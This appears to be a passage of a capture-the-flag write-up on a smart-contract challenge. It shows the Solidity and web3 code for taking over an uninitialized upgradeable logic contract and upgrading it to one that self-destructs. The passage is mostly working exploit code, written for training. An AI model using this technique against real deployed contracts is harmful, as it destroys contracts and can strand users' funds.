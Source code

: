 we can call `initialize` on the logic contract, this would make us the `upgrader` in the logic contract and let us call `upgradeToAndCall` against a contract that selfdestructs.

```
contract Killer {
    function kill(address payable receiver) public {
        selfdestruct(receiver);
    }
}
```

```
let logicAddress = await web3.eth.getStorageAt(instance, '0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc');
logicAddress = '0x' + logicAddress.slice(26, logicAddress.length);

const dataInitialize = web3.eth.abi.encodeFunctionCall({
    name: 'initialize',
    type: 'function',
    inputs: []
}, []);

await web3.eth.sendTransaction({from: player, to: logicAddress, data: dataInitialize});

const dataKill = web3.eth.abi.encodeFunctionCall({
    name: 'kill',
    type: 'function',
    inputs: [{
      type: 'address',
      name: 'receiver'
    }]
}, [player]);

const dataUpgrade = web3.eth.abi.encodeFunctionCall({
    name: 'upgradeToAndCall',
    type: 'function',
    inputs: [{
      type: 'address',
      name: 'receiver'
    }, {
      type: 'bytes',
      name: 'data',
    }]
}, ['<Killer contract address>', dataKill]);

await web3.eth.sendTransaction({from: player, to: logicAddress, data: dataUpgrade});
```
